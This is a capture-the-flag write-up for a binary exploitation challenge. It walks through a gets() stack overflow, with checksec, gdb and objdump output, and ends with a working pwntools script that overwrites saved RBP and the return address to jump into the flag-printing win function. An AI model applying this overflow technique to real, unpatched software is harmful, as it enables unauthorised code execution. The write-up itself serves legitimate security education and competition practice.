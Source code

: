 # Arg
---

### Challenge Description

Specific arguments... Seems easy

nc challenge2.lagncrash.com 10001

[Args.zip](https://github.com/caprinux/LagNCrash/files/6129814/Args.zip)

---

### Solution

So we are given the ELF binary and the source code. Checking the binary, we get:

```
$ pwn checksec argssource

[*] '/media/sf_Kali_Linux/argssource'

    Arch:     amd64-64-little

    RELRO:    Partial RELRO

    Stack:    No canary found

    NX:       NX enabled

    PIE:      No PIE (0x400000)

```

Opening the source code, we get: 

```C
#include <stdio.h>
#include <unistd.h>
int main(int argc, char** argv){
	setvbuf(stdout, NULL, _IONBF, 0);
	vuln();
}

int vuln(void){
	char buf[128];
	gets(buf);
	return 0;
}

int win(long a, long b, long c){
	if(!(a == 0xdeadbeef)) return 1;
	if(!(b == 0xcafebabecafebabe)) return 1;
	if(!(c == 0xd00df00dd00df00d)) return 1;

	char buf[64];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL) {
	printf("Run this on the server.\n");
	exit(0);
	}

	fgets(buf,64,f);
	printf(buf);

	return 0;	
}
```

As you can see, from the checksec, this file does not have a canary unlike Baby, but NX is enabled. 

We go on to read the source code, we see that the executable goes from the main() to the vuln() and takes an input with the gets call, gets call does not limit the number of bytes you can input.

But buffer only holds 128 bytes of input, then it returns, this allows us to buffer overflow.

Furthermore, from the win function, we can see that flag.txt is being read from fopen, and then its copied into buf with fgets, and printed with printf.

Let's further analyse the binary in gdb-gef

We disassemble the win function to see the segments of the fgets fopen printf

```gdb

   0x00000000004007c8 <+87>:	mov    esi,0x4008b4

   0x00000000004007cd <+92>:	mov    edi,0x4008b6

   0x00000000004007d2 <+97>:	call   0x400610 <fopen@plt>

   0x00000000004007d7 <+102>:	mov    QWORD PTR [rbp-0x8],rax

```

As we can see from here, the file path is loaded into fopen, and the file is saved in rax, then rbp-0x8.

```

```gdb
   0x00000000004007f6 <+133>:	mov    rdx,QWORD PTR [rbp-0x8]

   0x00000000004007fa <+137>:	lea    rax,[rbp-0x50]

   0x00000000004007fe <+141>:	mov    esi,0x40

   0x0000000000400803 <+146>:	mov    rdi,rax

   0x0000000000400806 <+149>:	call   0x4005d0 <fgets@plt>

```

Basically, fgets will write the flag into an offset of RBP-0x50

```
   0x000000000040080b <+154>:	lea    rax,[rbp-0x50]

   0x000000000040080f <+158>:	mov    rdi,rax

   0x0000000000400812 <+161>:	mov    eax,0x0

   0x0000000000400817 <+166>:	call   0x4005b0 <printf@plt>

```

And printf will print whatever is in RBP-0x50 which is our flag.

Hence now we know we want to overwrite the previous RBP address to a writeable memory, such that when leave function is passed, our rbp will be our overwritten writeable memory.

However, where can we find writeable memory that we can set our rbp to? We can set our RBP to the uninitialized BSS segment of the memory, which is always writeable.

To obtain the address of the bss segment, we can run the following command

```
$ objdump -x argssource | grep bss
 24 .bss          00000010  0000000000601070  0000000000601070  00001070  2**4

0000000000601070 l    d  .bss	0000000000000000              .bss

0000000000601078 l     O .bss	0000000000000001              completed.6982

0000000000601070 g     O .bss	0000000000000008              stdout@@GLIBC_2.2.5

0000000000601080 g       .bss	0000000000000000              _end

0000000000601070 g       .bss	0000000000000000              __bss_start
```
Here, we get some address of bss functions, but I wasn't sure whether to write to the start or the end. Hence, I trial and error with both __bss_start and _end .

Opening the argssource file with Ghidra, we go to the win function and we can see the address. We skip all the parameter checks and copy the address of the win function right before flag.txt is opened.

win_addr_before_fopen = 0x00000000004007c8

Now that we have everything, we can craft our exploit.

```
from pwn import *

win_addr_before_fread = 0x00000000004007c8
vuln_offset = 128
bss_segment = 0x0000000000601080

payload = b"A" * vuln_offset + p64(bss_segment) + p64(win_addr_before_fread)
p = remote('challenge2.lagncrash.com', 10001)
p.sendline(payload)
print(p.recv())
```

We obtain the flag.

```
LNC{C5U_H4V3_7H3_GADGETS}
```

_p.s. this was probably not the intended way of solving args but welp_

